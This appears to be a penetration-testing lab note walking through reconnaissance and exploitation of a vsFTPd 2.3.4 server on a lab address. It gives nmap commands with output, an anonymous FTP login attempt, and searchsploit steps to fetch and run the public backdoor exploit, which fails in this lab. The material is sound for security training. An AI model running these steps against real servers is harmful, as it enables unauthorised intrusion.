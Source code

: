 ## Targeting

### [vsFTPd](../3-metasploit/ftpd-msf-exp.md)

```bash
nmap -sV -sC -p 21 10.2.20.205
```

```bash
21/tcp open  ftp     vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.24.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 172.17.0.2 is not the same as 10.2.20.205

```

- Try `anonymous`:`anonymous` with FTP

```bash
ftp 10.2.20.205

# With anonymous access no files can be accessed
```

![](4-exploitationassets/image-20230424142914147.png)

- **Exploit vsFTPd**

```bash
searchsploit vsftpd
	vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/49757.py
searchsploit -m 49757
vim 49757.py
chmod +x 49757.py
python3 49757.py 10.2.20.205
# [Errno 111] Connection refused
# Backdoor on port 6200 was removed by the administrator

# Description of the unix/ftp/vsftpd_234_backdoor Metasploit module:
#  This module exploits a malicious backdoor that was added to the 
#  VSFTPD download archive. This backdoor was introduced into the 
#  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
```